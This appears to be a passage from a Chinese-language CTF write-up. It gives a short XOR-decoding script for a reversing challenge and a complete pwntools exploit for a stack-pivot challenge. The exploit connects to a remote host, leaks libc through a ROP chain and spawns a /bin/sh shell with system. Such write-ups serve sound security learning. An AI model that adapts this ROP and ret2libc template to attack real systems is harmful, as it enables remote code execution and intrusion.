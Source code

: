 所以 exp 如下

```python
xor = [84,51,246,51,242,51,7,51,251,51,4,51,5,51,14,51,93,51,83,51,201,51,78,51,70,51,10,51,19,51,1,51,3,51,56,51,160,51,187,51,199,51,68,51,250,51,188,51,3,51,68,51,44,51,154,51,109,51,152,51,53,51,79,51,74,51,16,51,196,51,23,51,9,51,97,51,6,51,225,51,141,51,117,51,198,51,93,51,130,51,31,51,51,51,217,51,127,51,153,51,162,50,360]
a = [0x32, 0x9A, 0x93, 0x60, 0x80, 0x36, 0x66, 0x39, 0x3E, 0x63, 0xF0, 0x7D, 0x24, 0x27, 0x75, 0x37, 0x37, 0x00, 0x8D, 0x8A, 0xF6, 0x21, 0x9E, 0x91, 0x62, 0x73, 0x1D, 0xAC, 0x40, 0xAF, 0x05, 0x7E, 0x2B, 0x72, 0xFC, 0x74, 0x68, 0x00, 0x67, 0x87, 0xE8, 0x08]
for i in range(len(a)):
    print(chr(a[i]^xor[2*i]),end='')
```

# Pwn

## Moved

栈迁移模板题

```python
from pwn import*
# p = process("./pwn")
p = remote("101.201.35.76",27431)
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc-2.27.so")
bss = 0x405000
ret = 0x40124c
read_rbp = 0x401230
puts_plt = 0x401080
puts_got = 0x404018
rdi = 0x401353
leave_ret = 0x40124b
p.recv()
p.send(b'a'*0x20)
p.recv()
p.send(p32(0x12345678))
p.recv()
payload = b'a'*0x30 + p64(bss) + p64(read_rbp)
p.send(payload)
# gdb.attach(p)
payload = p64(bss) + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(read_rbp) + b'a'*0x8 + p64(bss-0x30) + p64(leave_ret)
p.send(payload)

libc_base = u64(p.recv(6).ljust(8,b'\0')) - libc.symbols["puts"]
print(hex(libc_base))
system = libc_base + libc.symbols["system"]
str_bin_sh = libc_base + libc.search(b"/bin/sh").__next__()
# gdb.attach(p)
payload = b'a'*0x20 + p64(rdi) + p64(str_bin_sh) + p64(system)
p.send(payload)
p.interactive()
```
